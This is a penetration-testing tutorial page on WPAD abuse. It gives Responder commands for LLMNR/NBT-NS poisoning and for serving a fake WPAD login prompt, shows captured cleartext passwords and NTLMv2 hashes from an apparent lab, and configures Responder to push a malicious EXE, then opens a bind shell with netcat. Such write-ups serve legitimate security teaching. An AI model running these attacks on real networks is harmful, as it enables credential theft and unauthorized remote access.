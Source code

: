 # ⭕ WPAD Abuse

## WPAD

Organisations allow employees to access the internets through proxy servers to increase performance, ensure security and track traffic.Users who connected to the corporate network need to know proxy server for specific URL without doing configuration. The Web Proxy Auto-Discovery Protocol (WPAD) is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.

### How WPAD works <a href="#how-wpad-works" id="how-wpad-works"></a>

The client wants to access the wpad.dat configuration file for proxy configuration. It searches computers named as “wpad” on the local network to find this file. And then following steps are carried out:

1. If the DHCP Server is configured, the client retrieves the wpad.dat file from the DHCP Server (if successful, step 4 is taken)
2. The wpad.corpdomain.com query is sent to the DNS server to find the device that is distributing the Wpad configuration. (If successful, step 4 is taken)
3. Sent LLMNR query for WPAD (if success, go step 4 else proxy can’t be use)
4. Download wpad.dat and use

According to the above sequence, DHCP poisoning attack can be done for the first step. DNS poisoning attack can naturally be performed for the second step. But as I pointed out at the beginning of this article, configured network devices prevent these attacks. When a query is made through the LLMNR, this request will go to every client in the network via broadcast. At this point the attacker sends his wpad.dat file to the clients, acting like a wpad server.

{% hint style="info" %}
The important thing is that WPAD protocol is built in Windows operating systems. This configuration can be seen in the LAN Settings Section of the Internet Explorer browser. With this configuration, Internet Explorer makes a WPAD name resolution query on the whole network.
{% endhint %}

## Abusing WPAD

#### Responder serves a fake WPAD Server and responds to clients’ WPAD name resolution. The client then requests the wpad.dat file from this fake WPAD Server. Responder creates an authentication screen and asks clients to enter the username and password they use in the domain. Naturally, employees write usernames and passwords used in the domain name. Finally, we can see their username and passwords.

we serve the fake HTTP Server and wait for clear-text passwords.

```
python Responder.py -I eth0 -wFb
```

And our victim will see the following dialog box and naturally type the username and password.

![](<../../../.gitbook/assets/image (260).png>)

and we can see the clear-text passwords:

```
---
snippet
---
[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name GOOGLE.COM (service: Workstation/Redirector)
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name WWW.GOOGLE.COM (service: Workstation/Redirector)
[HTTP] Basic Client : 10.7.7.30
[HTTP] Basic Username : PENTESTLAB\roland
[HTTP] Basic Password : secr3tPassw0rd123!
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[SMB] NTLMv2-SSP Client : 10.7.7.30
[SMB] NTLMv2-SSP Username : PENTESTLAB\Administrator
[SMB] NTLMv2-SSP Hash : Administrator::PENTESTLAB:1122334455667788:8EBDB974DF3D5F4FB0CA15F1C5068856:01010000000000007894C6BE2C54D201FCEDFDB71BB6F1F20000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000B39077D5C9B729062C03BB45B88B0D9EC2672C57115A1FE3E06F77BD79551D8F0A001000000000000000000000000000000000000900220063006900660073002F007200650073007000700072006F00780079007300720076000000000000000000
[SMB] Requested Share : \\RESPPROXYSRV\IPC$
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
```

## Backdoor with Responder

The responder is not only MiTM attack for the WPAD service. It can force victims to downloadinga malicious files by directing ze to a fake web page. Social engineering can be used to realistically prepare the web page to be used for this attack. However, the Responder itself has a fake redirect page as well. All we need to do is make a few changes to the responder.conf file. We set “Serve-HTML” and “Serve-EXE” parameters to “On”.

```
[HTTP Server]
; Set to On to always serve the custom EXE
Serve-Always = On
; Set to On to replace any requested .exe with the custom EXE
Serve-Exe = On 
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On 
```

And we’re starting to run the Responder again.

```
python Responder.py -I eth0 -i 10.7.7.31 -r On -w On
```

Now, when the victim tries to go out to the internet, ze will only see the following page. And by chance, **the victim clicks on the Proxy Client connection and Bind downloads the CMD Shell, so we can connect to the victim’s 140 connection point with netcat.**

![](<../../../.gitbook/assets/image (258).png>)

```
nc 10.7.7.30 140 -vv
```
